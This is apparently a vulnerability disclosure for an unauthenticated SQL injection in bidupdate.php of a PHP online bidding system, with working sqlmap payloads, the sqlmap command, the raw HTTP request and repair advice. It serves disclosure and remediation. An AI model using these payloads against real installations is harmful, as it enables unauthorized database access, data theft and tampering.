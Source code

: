 # ONLINE BIDDING SYSTEM Project V1.0 bidupdate.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- ONLINE BIDDING SYSTEM

## Vendor Homepage

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xianhong zeng

## VERSION(S)

- V1.0

## Software Link

- [Online Bidding System In PHP With Source Code - Source Code & Projects](https://code-projects.org/online-bidding-system-in-php-with-source-code/)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'bidupdate.php' file of the 'ONLINE BIDDING SYSTEM' project. The reason for this issue is that attackers inject malicious code from the parameter "id" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "ONLINE BIDDING SYSTEM", discovered a critical SQL injection vulnerability in the "bidupdate.php" file. This vulnerability stems from insufficient user input validation of the 'id' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability

# Vulnerability details and POC

## Vulnerability type:

- error-based
- time-based blind
- boolean-based blind

## Vulnerability location:

- 'id' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=1' AND 6322=(SELECT (CASE WHEN (6322=6322) THEN 6322 ELSE (SELECT 5223 UNION SELECT 1880) END))-- -
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1' AND GTID_SUBSET(CONCAT(0x7162707171,(SELECT (ELT(7502=7502,1))),0x71716b6a71),7502)-- bnMp
    Vector: AND GTID_SUBSET(CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]'),[RANDNUM])

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: id=1' OR (SELECT 2053 FROM (SELECT(SLEEP(5)))tPSY)-- nWLX
    Vector: OR (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
```

![image-20250914133843039](assets/image-20250914133843039.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
python sqlmap.py -r data.txt --dbs -v 3 --batch --level 5
//data.txt
POST /administrator/bidupdate.php HTTP/1.1
Host: 10.151.167.210:8886
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=860bf9sue3vca48n2eir3ln4j7
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

id=1*
```

# Attack results

![image-20250914133909804](assets/image-20250914133909804.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.